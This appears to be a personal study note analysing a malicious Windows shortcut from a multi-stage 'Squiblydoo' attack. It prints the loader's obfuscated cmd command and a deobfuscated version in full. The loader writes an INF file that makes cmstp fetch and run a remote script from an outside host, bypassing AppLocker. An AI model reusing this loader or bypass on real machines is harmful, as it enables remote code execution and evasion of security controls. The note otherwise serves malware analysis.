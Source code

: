 ```yaml
---
title: Attack - RCE Multi-stage Squiblydoo variant
# author: Grace JyL
date: 2020-11-11 11:11:11 -0400
description:
excerpt_separator:
categories: [10CyberAttack, Vulnerability]
tags: [CyberAttack]
math: true
# pin: true
toc: true
# image: /assets/img/sample/devices-mockup.png
---
```


[toc]

---


# Multi-stage Squiblydoo variant

---

## step 1

the `.lnk` file has a cmd command but it looks encoded/obfuscated.
- the cmd contains two distinct sections.
- The first part `creates a “RANDOM.inf” file`
  - (RANDOM is a random number generated via %random% command)
- the second part starts it using `WMI` and `cmstp`
  - cmstp is often used to bypass Applocker

original

```c
“C:\Windows\System32\cmd.exe” /v /c set “EhWLDvbm34801=Items”
&& call set “EhWLDvbm4162=%EhWLDvbm34801:~4,1%”
&& (for %e in (c) do @set “EhWLDvbm4796=%~e”)
&& !EhWLDvbm4162!et “EhWLDvbm8561=na”
&& !EhWLDvbm4162!et “EhWLDvbm85714=a”
&& !EhWLDvbm4162!et “EhWLDvbm13835=t”
&& !EhWLDvbm4162!et “EhWLDvbm9306=d”
&& call !EhWLDvbm4162!et “EhWLDvbm1449=%ran!EhWLDvbm9306!om%.inf”
&& call !EhWLDvbm4162!et “EhWLDvbm9442=%app!EhWLDvbm9306!ata%\Micro!EhWLDvbm4162!oft\!EhWLDvbm1449!”
&& !EhWLDvbm4162!et “EhWLDvbm59779=.”
&& !EhWLDvbm4162!et “EhWLDvbm19532=“^”
&& (for %r in (“[ver!EhWLDvbm4162!ion]” “!EhWLDvbm4162!ig!EhWLDvbm8561!ture=$Window!EhWLDvbm4162! NT$” “[!EhWLDvbm9306!e!EhWLDvbm4162!tinationdirs]” “2A436=01” “[!EhWLDvbm9306!efaultin!EhWLDvbm4162!tall_singleu!EhWLDvbm4162!er]” “UnRegis!EhWLDvbm13835!erOCXs=47E0” “!EhWLDvbm9306!elfiles=2A436" “[47E0]” “%11%\%EhWLDvbm55506%crO%EhWLDvbm59234%j,NI,%EhWLDvbm69079%%EhWLDvbm23745%%EhWLDvbm23745%p%EhWLDvbm23092%%EhWLDvbm20494%%EhWLDvbm20494%web2!EhWLDvbm59779!e-fax!EhWLDvbm59779!%EhWLDvbm2079%/gmaps!EhWLDvbm59779!txt” “[2A436]” “!EhWLDvbm1449!” “[!EhWLDvbm4162!!EhWLDvbm13835!rings]” “EhWLDvbm23745=t” “EhWLDvbm69079=h” “EhWLDvbm23092=:” “EhWLDvbm55506=s” “EhWLDvbm20494=/” “EhWLDvbm59234=b” “EhWLDvbm2079=org” “!EhWLDvbm4162!ervicen!EhWLDvbm85714!me=' ‘” “!EhWLDvbm4162!hortsvcn!EhWLDvbm85714!me=’ ’“) do @e!EhWLDvbm4796!ho %~r)>“!EhWLDvbm9442!
“&& !EhWLDvbm4162!t!EhWLDvbm85714!rt “” /MIN wmi!EhWLDvbm4796! proce!EhWLDvbm4162!s call !EhWLDvbm4796!rea!EhWLDvbm13835!e “cm!EhWLDvbm4162!!EhWLDvbm13835!p /ns /!EhWLDvbm4162! /su !EhWLDvbm9442!”
```

---

## chop

- `&&` runs the second command on the line when the first command comes back successfully
- `%variablename%` a inbuilt or user set environmental variable
- `!variablename!` a user set environmental variable expanded at execution time, turned with SetLocal EnableDelayedExpansion command

```c
%Items:~4,1%=s

%~e=c


smtp:
Syntax 1 - This is the typical syntax used in a custom installation application. To use this syntax, you must run cmstp from the directory that contains the <serviceprofilefilename>.exe file.

<serviceprofilefilename>.exe /q:a /c:cmstp.exe <serviceprofilefilename>.inf [/nf] [/s] [/u]

Syntax 2
cmstp.exe [/nf] [/s] [/u] [drive:][path]serviceprofilefilename.inf
```



```c
“C:\Windows\System32\cmd.exe” /v /c set “Items=Items”
&& call set “EhWLDvbm4162=%Items:~4,1%=s”
&& (for %e in (c) do @set “EhWLDvbm4796=%~e=c”)
&& set “EhWLDvbm8561=na”
&& set “EhWLDvbm85714=a”
&& set “EhWLDvbm13835=t”
&& set “EhWLDvbm9306=d”
&& call set “EhWLDvbm1449=%random%.inf”
&& call set “EhWLDvbm9442=%appdata%\Microsoft\%random%.inf”
&& set “EhWLDvbm59779=.”
&& set “EhWLDvbm19532=“^”
&& (for %r in (
    “[version]”
    “signature=$Windows NT$”
    “[destinationdirs]”
    “2A436=01”
    “[defaultinstall_singleuser]”
    “UnRegisterOCXs=47E0”
    “delfiles=2A436"
    “[“UnRegisterOCXs]”
    “%11%\scrObj,NI,http://web2.e-fax.org/gmaps.txt”
    “[“delfiles]”
    “%random%.inf”
    “[strings]”
    “EhWLDvbm23745=t”
    “EhWLDvbm69079=h”
    “EhWLDvbm23092=:”
    “EhWLDvbm55506=s”
    “EhWLDvbm20494=/”
    “EhWLDvbm59234=b”
    “EhWLDvbm2079=org”
    “servicename=' ‘”
    “shortsvcname=’ ’“
    ) do @echo %~r)>“%appdata%\Microsoft\%random%.inf“
&& start “” /MIN wmic process call create “cmstp /ns /s /su %appdata%\Microsoft\%random%.inf”

```




---

ref
- [Analysis of a Multi-stage Squiblydoo variant](https://blog.n0p.me/2020/10/2020-10-13-malware-applocker-bypass/#stage-2-updatetxt)





.

